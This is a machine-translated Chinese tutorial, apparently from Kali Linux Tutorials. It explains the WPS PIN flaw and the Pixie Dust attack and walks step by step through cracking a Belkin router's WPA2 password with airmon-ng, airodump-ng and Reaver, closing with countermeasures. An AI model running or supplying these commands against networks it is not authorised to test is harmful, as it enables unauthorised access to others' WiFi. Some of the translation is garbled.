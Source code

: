 # 掠夺者+pixeiwps——暴力破解 WiFi 路由器 WPS 的工具

> 原文：<https://kalilinuxtutorials.com/reaver-pixewps/>

金甲虫是一个暴力破解 WIFi 路由器 WPS 的工具。PixeWPS 是一个新的工具，可以在 WPS 事务中强行交换密钥。首先，我们来了解一下什么是 WPS

WPS 是受 Wifi 保护的设置，旨在快速轻松地向 AP 认证客户端，主要针对家庭用户。基本上在 WPS 中，接入点和客户端交换一系列 EAP 消息。在这个事务结束时，客户机将获得加密密钥 AP 的签名，这样它就可以连接到加密的网络了。完成后，AP 将与客户端解除关联。然后，客户端重新关联新的凭证和签名。这里需要注意的一件重要事情是，在 WPS 启动期间，实际的密码短语并没有被交换。取而代之的是，使用一个八位数的 pin 进行身份验证。使用这样的 pin，首先对客户端进行身份验证，然后交换实际的密码短语。

2011 年，一位名叫 Stefan vieh bck 的安全研究人员发现了这种实现中的一个缺陷。他提出的概念基于以下事实:

*   在 PIN 的 8 个数字中，最后一个数字是校验和，剩下 7 个数字需要猜测。
*   通过将 PIN 分成两半来验证它。所以前半部分留给 10^4 = 10，000 次猜测，后半部分留给 10^3 = 1000 次猜测。所以总共只有 11000 次猜测，这里应该是 10^8 = 100000000 次猜测。

因此，猜测的次数急剧减少，最终，它可以在更短的时间内被强行破解。掠夺者是一种工具，做的完全一样。它对启用 WPS 的 AP 进行在线攻击，尝试了大约 11000 个 pin。

最近，一位名叫 Dominique Bongard 的安全研究人员发现了一个更新的漏洞。他发现，在两个半针的组成部分缺乏随机性将使离线暴力成为可能。当 PIN 的 2 个一半被交换时，如果这些数据包的组成部分没有被适当地随机化，由 Reaver 生成的真实 PIN 可能被用来执行离线攻击。将来自掠夺者的 PIN 与接收到的哈希进行比对，以确认真实的 PIN。然后，这个 PIN 可以被掠夺者用来对路由器进行在线攻击，以获取真正的密码。

[![reaver](img/38d8679d521b2d643927b502d7bdb18d.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver-wpsattack/#main)

Pixie Dust Attack

这种攻击只适用于易受攻击的设备。这种攻击被称为 PixieDust。PixieWPS 是一个工具，它从捕获的散列值中找到 WPS PIN。Pixie WPS 可以单独执行，也可以和更新的金甲虫包一起执行。

[金甲虫主页](http://code.google.com/p/reaver-wps/)

[PixieWPS 主页](https://github.com/wiire/pixiewps/)

参考资料: [维基](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup)， [HTG](http://www.howtogeek.com/176124/wi-fi-protected-setup-wps-is-insecure-heres-why-you-should-disable-it/) ，[信息安全学院](http://resources.infosecinstitute.com/wi-fi-security-wps/)

## 选择

因为本教程关注的是金甲虫，所以只显示了金甲虫选项。期权贬值。

```
Required Arguments:
 -i, --interface=<wlan> Name of the monitor-mode interface to use
 -b, --bssid=<mac> BSSID of the target AP

Optional Arguments:
 -m, --mac=<mac> MAC of the host system
 -c, --channel=<channel> Set the 802.11 channel for the interface (implies -f)
 -o, --out-file=<file> Send output to a log file [stdout]
 -a, --auto Auto detect the best advanced options for the target AP
 -v, --verbose Display non-critical warnings (-vv for more)
 -q, --quiet Only display critical messages
 -K --pixie-dust=<number> [1] Run pixiewps with PKE, PKR, E-Hash1, E-Hash2 and E-Nonce (Ralink, Broadcom, Realtek)
 -Z, --no-auto-pass Do NOT run reaver to auto retrieve WPA password if Pixiewps attack is successful
 -h, --help Show help

Advanced Options:
 -p, --pin=<wps pin> Use the specified 4 or 8 digit WPS pin
 -d, --delay=<seconds> Set the delay between pin attempts [1]
 -l, --lock-delay=<seconds> Set the time to wait if the AP locks WPS pin attempts [60]
 -1, --p1-index Set initial array index for the first half of the pin [False]
 -2, --p2-index Set initial array index for the second half of the pin [False]
 -P, --pixiedust-loop Set into PixieLoop mode (doesn't send M4, and loops through to M3) [False]
 -W, --generate-pin Default Pin Generator by devttys0 team [1] Belkin [2] D-Link
```

## 实验室:用掠夺者和皮克斯威普斯破解 WPA2 PSK 网络

#### 方案

攻击者–Kali Linux(Sana)机器(非虚拟机)

目标–Belkin AP

**步骤 1:初始设置**

启动监视器接口，以便开始从空中捕获数据包。

```
Command: service network-manager stop
Command: airmon-ng check
```

杀死干扰进程。对所有过程重复这样做，直到 airmon-ng 检查给出“无干扰”输出。

```
Command:  kill -9  <pid>
```

启动监视器界面。

```
Command: airmon-ng check
Command: iwconfig
command: airmon-ng start wlan0 <replace with yours>
```

[![reaver](img/dc7e4b598d51c595eb47ad354e33a2e0.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver1/#main)

Reaver Initial Setup

[![reaver](img/66e308d400ffd9dba79b5f098a85d085.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver2/#main)

Reaver Initial Setup

**第二步:开始捕捉&选择目标。**

Airodump 转储监视器接口上收到的数据包。我们可以选择是否将数据包写入文件。在不久的将来会有一个完整的教程。

```
command: airodump-ng wlan0mon <replace with yours>
```

[![reaver](img/d5429ac455e47f433f88a312c52d0fba.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver3/#main)

Starting Capture

执行 Airodump 实际上将终端变成显示所有信息的更新终端。记下目标 BSSID、通道和 ESSID。按 control+c 停止 airodump。

用相关信息运行掠夺者。

```
command: reaver -i wlan0mon <replace with yours> -b <bssid> -c <channel no> -K 1 -vv
```

[![reaver](img/0f98c08c21e4a3b76ba2baea44debc37.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver4/#main)

Capture & Reaver Output

从上图我们可以得到我们目标的 MAC。记下这一点，然后运行金甲虫。

[![reaver](img/7cf9cac79f276fbfd14f19f0687ad5e5.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver5/#main)

Pixie Output

这就是密码和个人识别码。因此，这是一种离线和在线相结合的攻击，可以在无线渗透测试期间针对无线接入点运行。有趣的是，PixieWPS 发现了许多其他信息，如 AP 的型号、制造商等。因此，在测试期间，可以使用它来搜索特定 AP 的已知漏洞。

为获得最佳攻击性能，请使用 Alfa Network AWUS036NH 或类似型号。

相关视频:[https://vimeo.com/126489367](https://vimeo.com/126489367)

## 对策

先想想为什么会有这样针对我们的攻击，再想想是不是真的有必要用 RPG 来杀老鼠。以下是一些对策:

1.  禁用 WPS:分析你的无线接入点是否需要使用 WPS。
2.  增加超时时间:对于高级路由器，我们可以增加接收超时时间来减缓攻击
3.  WPS 锁:将 WPS 锁时间设置为一个较大的值
4.  MAC 过滤:当然是老狗，但有时可以防止脚本小子。
5.  从物理上保护路由器